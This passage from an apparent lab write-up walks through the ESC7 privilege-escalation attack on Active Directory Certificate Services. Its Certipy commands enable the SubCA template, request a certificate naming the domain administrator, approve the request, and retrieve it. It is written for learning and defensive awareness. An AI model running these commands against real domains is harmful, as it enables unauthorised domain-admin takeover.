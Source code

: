 - Copy togehter your RSA private key and the cert, and generate your pfx and pwn the world.  

#### Certipy  

- If not already availabe, enable the SubCA template (remember, this is the all purpose template). It should however be enabled by default.  

```
certipy ca -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -enable-template SubCA
```

<img src="/images/2022-09-16/esc7_exploit7.png">  

- Try to request a cert based on the SubCA template which will obviously fail. Save the private key  

```
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -template subCA -upn administrator@mcafeelab.local
```

- Approve the request with our superpowers  

```
certipy ca -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -issue-request 732
```

- Fetch the issued cert  

```
certipy req -u 'lowpriv@mcafeelab.local' -p 'low' -target 'dc2016-2.mcafeelab.local' -ca 'mcafeelab-DC2016-2-CA-1' -retrieve 732
``` 

<img src="/images/2022-09-16/esc7_exploit8.png">  
